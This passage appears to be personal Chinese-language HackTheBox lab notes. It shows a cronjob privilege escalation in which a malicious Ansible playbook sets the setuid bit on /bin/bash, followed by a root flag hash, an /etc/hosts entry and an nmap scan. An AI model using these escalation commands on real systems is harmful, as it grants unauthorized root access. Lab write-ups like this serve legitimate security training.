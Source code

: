 > 使用 pspy 我发现了一个似乎每 3 分钟运行一次的 cronjob，并在目录**/opt/automation/tasks上执行ansible-parallel**

> Ansible Parallel 用于同时运行多个剧本。所以我猜 cronjob 正在做类似的事情
>
> ```shell
> /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/*
> ```

nnd这怎么发现的?? 整个pspy先

也就是说这个脚本每隔一段时间会运行 `/opt/automation/tasks/*`下的yml文件,只要我们新建一个

`shell.yml`文件

```shell
echo '[{hosts: localhost, tasks: [shell: /usr/bin/chmod +s /bin/bash]}]' >> /opt/automation/tasks/shell.yml
```

等几分钟后就 运行 `bash -p`就会成为root

* root 6b90bf771b3bca6f236cef43ae88773d



### keeper
#### user
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231025150542.png)

- 80
添加
`10.10.11.227 tickets.keeper.htb` 到/etc/hosts

## Medium
### Manager
#### user
- nmap
```text
Nmap scan report for 10.10.11.236
Host is up (0.47s latency).
Not shown: 992 filtered ports
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
389/tcp open  ldap
445/tcp open  microsoft-ds
464/tcp open  kpasswd5
636/tcp open  ldapssl
```

还有个88端口的kerberos-sec没扫出来
